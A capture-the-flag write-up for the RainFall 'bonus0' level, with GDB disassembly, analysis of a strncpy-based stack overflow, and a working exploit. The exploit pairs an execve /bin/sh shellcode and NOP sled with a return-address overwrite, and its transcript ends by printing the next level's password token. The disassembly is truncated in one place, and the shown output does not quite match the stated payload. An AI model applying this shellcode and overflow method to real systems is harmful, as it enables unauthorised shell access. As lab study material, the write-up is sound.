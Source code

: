 [README](../README.md)
# Bonus 0

```
bonus0@RainFall:~$ ./bonus0
 -
1
 -
2
1 2

bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��� aaaaaaaaaaaaaaaaaaaa���
Segmentation fault (core dumped)
```

## GDB
### Main disassembly
```
0x080485a4 <+0>:     push   %ebp
0x080485a5 <+1>:     mov    %esp,%ebp
0x080485a7 <+3>:     and    $0xfffffff0,%esp
0x080485aa <+6>:     sub    $0x40,%esp
0x080485ad <+9>:     lea    0x16(%esp),%eax
0x080485b1 <+13>:    mov    %eax,(%esp)
0x080485b4 <+16>:    call   0x804851e <pp>
0x080485b9 <+21>:    lea    0x16(%esp),%eax
0x080485bd <+25>:    mov    %eax,(%esp)
0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
0x080485c5 <+33>:    mov    $0x0,%eax
0x080485ca <+38>:    leave
0x080485cb <+39>:    ret
```

### p function
```
0x080484b4 <+0>:     push   %ebp
0x080484b5 <+1>:     mov    %esp,%ebp
0x080484b7 <+3>:     sub    $0x1018,%esp
0x080484bd <+9>:     mov    0xc(%ebp),%eax
0x080484c0 <+12>:    mov    %eax,(%esp)
0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
0x080484d6 <+34>:    mov    %eax,0x4(%esp)
0x080484da <+38>:    movl   $0x0,(%esp)
0x080484e1 <+45>:    call   0x8048380 <read@plt>
0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
0x080484f4 <+64>:    mov    %eax,(%esp)
0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
0x080484fc <+72>:    movb   $0x0,(%eax)
0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
0x08048505 <+81>:    movl   $0x14,0x8(%esp)
0x0804850d <+89>:    mov    %eax,0x4(%esp)
0x08048511 <+93>:    mov    0x8(%ebp),%eax
0x08048514 <+96>:    mov    %eax,(%esp)
0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
0x0804851c <+104>:   leave
0x0804851d <+105>:   ret
```

### pp function
```
0x0804851e <+0>:     push   %ebp
0x0804851f <+1>:     mov    %esp,%ebp
0x08048521 <+3>:     push   %edi
0x08048522 <+4>:     push   %ebx
0x08048523 <+5>:     sub    $0x50,%esp
0x08048526 <+8>:     movl   $0x80486a0,0x4(%esp)
0x0804852e <+16>:    lea    -0x30(%ebp),%eax
0x08048531 <+19>:    mov    %eax,(%esp)
0x08048534 <+22>:    call   0x80484b4 <p>
0x08048539 <+27>:    movl   $0x80486a0,0x4(%esp)
0x08048541 <+35>:    lea    -0x1c(%ebp),%eax
0x08048544 <+38>:    mov    %eax,(%esp)
0x08048547 <+41>:    call   0x80484b4 <p>
0x0804854c <+46>:    lea    -0x30(%ebp),%eax
0x0804854f <+49>:    mov    %eax,0x4(%esp)
0x08048553 <+53>:    mov    0x8(%ebp),%eax
0x08048556 <+56>:    mov    %eax,(%esp)
0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
0x0804855e <+64>:    mov    $0x80486a4,%ebx
0x08048563 <+69>:    mov    0x8(%ebp),%eax
0x08048566 <+72>:    movl   $0xffffffff,-0x3c(%ebp)
0x0804856d <+79>:    mov    %eax,%edx
0x0804856f <+81>:    mov    $0x0,%eax
0x08048574 <+86>:    mov    -0x3c(%ebp),%ecx
0x08048577 <+89>:    mov    %edx,%edi
0x08048579 <+91>:    repnz scas %es:(%edi),%al
0x0804857b <+93>:    mov    %ecx,%eax
0x0804857d <+95>:    not    %eax
0x0804857f <+97>:    sub    $0x1,%eax
0x08048582 <+100>:   add    0x8(%ebp),%eax
0x08048585 <+103>:   movzwl (%ebx),%edx
0x08048588 <+106>:   mov    %dx,(%eax)
0x0804858b <+109>:   lea    -0x1c(%ebp),%eax
0x0804858e <+112>:   mov    %eax,0x4(%esp)
0x08048592 <+116>:   mov    0x8(%ebp),%eax
0x08048595 <+119>:   mov    %eax,(%esp)
0x08048598 <+122>:   call   0x8048390 <strcat@plt>
0x0804859d <+127>:   add    $0x50,%esp
0x080485a0 <+130>:   pop    %ebx
0x080485a1 <+131>:   pop    %edi
0x080485a2 <+132>:   pop    %eb
```

### Program flow
**Main:**
- aligns the stack pointer to a multiple of 16 (and $0xfffffff0,%esp) and reserves space on the stack for local variables.
- loads an address onto the stack and calls the pp function.
- loads another address onto the stack and calls the puts function.

**pp:**
- reserves space on the stack for local variables.
- initializes %eax with the address 0x80486a0 and %edx with the address of a buffer.
- calls function p twice, passing different arguments.
- performs some string operations, copying, and concatenating strings.

**p:**
- reserves space for local variables by subtracting 0x1018 bytes from the stack pointer (%esp).
- moves the value at the address 0xc(%ebp) into the %eax register.
- moves %eax onto the stack ((%esp)) and calls the puts function (puts@plt).
- prepares arguments for the read function (read@plt), setting up the buffer size to 0x1000.
- reads input from standard input (stdin) into the buffer located at -0x1008(%ebp).
- searches for the newline character ('\n') in the buffer using strchr.
- Upon finding the newline character, it replaces it with the null terminator ('\0'), effectively terminating the string.
- Next, it copies the first 0x14 bytes from the buffer to a location specified by the second argument.


The `p` function appears to be vulnerable to a buffer overflow vulnerability. It reads up to `0x1000` (4096) bytes from standard input into a buffer on the stack without checking the size of the input. This can lead to a buffer overflow if the input is larger than the buffer size.

It replaces the `\n` with `\0`, then copies 20 bytes from the buffer
If we enter more characters the string will bot be null terminated.

```
bonus0@RainFall:~$ ./bonus0
 -
1
 -
01234567890123456789
1 01234567890123456789���
```

The program crashes or exhibits unexpected behavior when provided with an input string longer than 20 characters. This behavior confirms the presence of a buffer overflow vulnerability.

## Exploit
```
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```

The ASCII representation for the hexadecimal value `0x41336141` is `A3aA`.

In our pattern we have 9 characters before `A3aA`.

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Shellcode used: [Linux/x86 - execve /bin/sh shellcode - 23 bytes](https://shell-storm.org/shellcode/files/shellcode-827.html)

**First payload:**
```
python -c 'print "\x90" * 40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
```
- `\x90` (NOP) instructions for padding, to ensure the shellcode is properly aligned.
- Shellcode that spawns a shell (/bin/sh) using the execve syscall. This shellcode is written in assembly and performs the following actions:
    - Zeroes out the `%eax` register (`\x31\xc0`).
    - Pushes null bytes onto the stack (`\x50`).
    - Pushes the string `"/bin/sh"` onto the stack (`\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e`).
    - Copies the pointer to the string `"/bin/sh"` into `%ebx`, `%ecx`, and `%edx` registers (`\x89\xe3\x89\xc1\x89\xc2`).
    - Sets %eax to 0x0b, indicating the execve syscall (`\xb0\x0b`).
    - Invokes the syscall (`\xcd\x80`).

**Second payload:**
```
python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "A" * 7'
```
- 9 bytes of padding (A characters).
- The little-endian representation of the address (\xd0\xe6\xff\xbf) to overwrite the return address.
- 7 bytes of padding (A characters) to reach the 20 bytes

**Execution:**
```
bonus0@RainFall:~$ (python -c 'print "\x90" * 40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "A" * 7'; cat) | ./bonus0
 -
 -
��������������������AAAAAAAAA����BBBBBBB��� AAAAAAAAA����AAAAAAA���

whoami
bonus1
pwd
/home/user/bonus0
cd ../bonus1
ls -a
.  ..  .bash_logout  .bashrc  .pass  .profile  bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```